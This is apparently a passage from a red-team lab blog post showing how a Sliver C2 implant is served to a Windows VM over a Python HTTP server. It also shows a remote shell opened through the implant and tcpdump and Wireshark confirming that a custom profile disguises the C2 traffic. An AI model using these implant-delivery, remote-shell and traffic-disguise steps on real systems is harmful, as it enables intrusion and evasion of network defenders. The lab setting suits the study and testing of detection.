 Using the command `sudo chown yoon:yoon /tmp/DEFIANT_DRAFT.exe`, make the implant transferable and move it to the target machine (Windows VM) using `python3 -m http.server <port>`.

Ok. Now let's log the traffic before we establish a connection. 

We can use `tcpdump` to do so:

```scss
yoon@yoon-XH695R:~$ sudo tcpdump -i vmnet8 host 172.16.76.130 -w /tmp/sliver_traffic.pcap
tcpdump: listening on vmnet8, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

Now that we have `tcpdump` listening, run the the implant on target machine. 

Once we download and execute the implant on our target Windows machine, session will be established:

```scss
[*] Session bbd1a6c1 DEFIANT_DRAFT - 192.168.35.17:46959 (DESKTOP-BN3RLJ1) - windows/amd64 - Sat, 05 Jul 2025 00:19:44 KST

[server] sliver > sessions

 ID         Transport   Remote Address        Hostname          Username   Operating System   Health  
========== =========== ===================== ================= ========== ================== =========
 bbd1a6c1   http(s)     192.168.35.17:46959   DESKTOP-BN3RLJ1   yoon       windows/amd64      [ALIVE] 
```

Let's create a shell and throw in some couple commands to generate some traffic:

```scss
[server] sliver (DEFIANT_DRAFT) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 5232

PS C:\Users\yoon\Downloads> whoami
whoami
desktop-bn3rlj1\yoon
```

Now go back to the `.pcap` file we've been logging and open it up on Wireshark:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/refs/heads/v4/Images/RedTeam/malleablec2/1.png)

Click on some of the suspicious looking traffic and follow on TCP stream:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/refs/heads/v4/Images/RedTeam/malleablec2/2.png)

Hooray! Our traffic is now changed to something we set using `profile-switch.py`. 
